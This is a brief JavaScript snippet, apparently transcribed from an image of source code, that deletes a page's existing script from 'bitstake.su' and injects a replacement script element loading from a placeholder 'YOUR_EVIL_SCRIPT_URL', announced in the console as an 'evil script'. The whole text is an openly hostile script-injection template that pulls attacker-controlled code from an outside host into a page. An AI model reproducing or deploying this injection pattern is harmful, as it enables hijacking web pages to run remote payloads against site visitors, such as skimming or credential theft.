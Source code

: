 // Block the target website's script
document.querySelector('script[src="https://bitstake.su"]').remove();

// Now inject your own script on the page
const evilscript = document.createElement('script');
evilscript.src = 'YOUR_EVIL_SCRIPT_URL';
evilscript.onload = () => {
  console.log('Evil script has loaded!');
};
document.head.appendChild(evilscript);
